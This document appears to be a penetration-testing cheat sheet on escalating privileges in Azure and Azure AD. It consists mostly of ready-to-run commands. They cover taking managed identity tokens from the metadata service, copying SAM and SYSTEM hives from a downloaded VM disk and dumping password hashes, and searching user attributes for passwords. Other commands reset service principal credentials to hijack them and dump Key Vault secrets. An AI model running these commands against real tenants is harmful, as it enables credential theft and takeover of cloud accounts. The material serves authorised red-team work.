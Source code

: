 # Privilege Escalation
- First step is determining what we can read
  - Key Vaults
  - VMs
  - Deployment scripts
  - AD user attribute data
  - Runbooks
- https://www.netspi.com/blog/technical/cloud-penetration-testing/azure-privilege-escalation-using-managed-identities/

## Virtual machines
- If you have access to a VM it might actually have more privileges than your user in Azure
- VM can auth to Azure with a Managed Identity by requesting Oauth token from Azure Metadata Service URL at http://169.254.169.254/metadata/identity/oauth2/token
- RDP to VM, request token, and connect to Azure using AZ cli or Az PowerShell

### Read password hashes from virtual machine
- Download the disk https://docs.microsoft.com/en-us/azure/virtual-machines/windows/download-vhd#generate-download-url

#### Check the disks
```
sudo fdisk –l
```

#### Mount the disk
```
sudo mkdir /media/mounted-drive
sudo mount /dev/sdc4 /media/mounted-drive/
```

#### Navigate to the windows snapshot
```
cd /media/mounted-drive/
ls
```

#### Copy system/SAM and dump hashes
```
cd /media/mounted-drive/Windows/System32/config/
cp SAM SYSTEM ~/
cd ~/
impacket-secretsdump -system SYSTEM -sam SAM LOCAL
```

### Execute commands
- Requires the "Virtual Machine Contributor" role
- Run as default by SYSTEM or root
- Commandid =  RunPowerShellScript or RunShellScript

```
Invoke-AzVMRunCommand -ResourceGroupName <resource group name> -VMName <VM name> -CommandId RunPowerShellScript -ScriptPath ./powershell-script.ps1
```

## Ad user attributes
- User attributes and sensitive information

#### Request all attributes and look for password string
- Might also use token, secret, pass etc.
```
$users = Get-MsolUser; foreach($user in $users){$props = @();$user | Get-Member | foreach-object{$props+=$_.Name}; foreach($prop in $props){if($user.$prop -like "*password*"){Write-Output ("[*]" + $user.UserPrincipalName + "[" + $prop + "]" + " : " + $user.$prop)}}} 
```

## Service Principal Hijacking
- There are over 200 default service principals in an O365 tenant
- None of them are listed in the Azure GUI portal
- An “Application Administrator” can change passwords or certificates for service principals… even the default ones
- Some interesting permissions as identified by Dirk-Jan Mollema: https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/
- Application Admin can’t add users to groups but can change the password of a service principal that can add users to groups.

#### List service principals as Application Administrator
```
Get-AzureAdServicePrincipal
```

#### Change password of service prinicpal
```
$spn = Get-AzureADServicePrincipal -SearchString "<SPN DISPLAY NAME>"
New-AzureADServicePrincipalPasswordCredential -objectid $spn.ObjectId -EndDate "12-31-2099 12:00:00" -StartDate "6-8-2018 13:37:00" -Value "<PASSWORD>"
```

- One way to quickly determine what service principals might be useful would be list out all roles for each service
- Not easily done through PowerShell Cmdlets
- Change password for a service principal
- Use cred to auth with Microsoft Graph scope
- Brute force all Object ID’s against Microsoft Graph endpoint that responds with role information
- Web request for auth to Microsoft Graph
```
POST /<tenant ID>/oauth2/v2.0/token HTTP/1.1
Host: login.microsoftonline.com
client_id=<application 
ID>&scope=https%3A%2F%2Fgraph.microsoft.com%2F.default&client_secret=
<service principal password>&grant_type=client_credentials
```
- A bearer token should be returned if auth was successful
- Then use the bearer token with the following request setting the service principal ObjectID against graph.windows.net
```
GET /beta/servicePrincipals/<Service Principal ObjectID> HTTP/1.1

Host: graph.microsoft.com
Authorization: Bearer <JWT Bearer Token Value>
```
- Response contains role information
- Next, something like Burp’s Intruder could be used to brute force each service principal ID against the Microsoft Graph endpoint URL
```
$apps = Get-AzADServicePrincipal
$apps.Id
```
- Now we can choose what level of access we want and change the pass for that service principal

## Break glass accounts
- Another PrivEsc target is Azure “Break Glass” administrative accounts
- Microsoft recommends not setting up MFA for them
- Two accounts are usually recommended to be set up
- If you can determine which ones are the break glass they can be good targets

## Azure key vaults
#### List key vaults which current user has view access too
```
az keyvault list --query '[].name' --output tsv
```

#### Try to access keyvault
```
az keyvault secret list --vault-name <KEYVAULT> --query '[].id' --output tsv
```

#### Read cleartext secret
```
az keyvault secret show --id <URI from last command> | ConvertFrom-Json
```

#### Give access if contributer role
```
az keyvault set-policy --name <KEYVAULT NAME> --upn <CONTRIBUTER USERNAME> --secret-permissions get list --key-permissions get list --storage-permissions get list --certificate-permissions get list
```

#### Powerzure get keyvault contents
```
Get-AzureKeyVaultContent
```
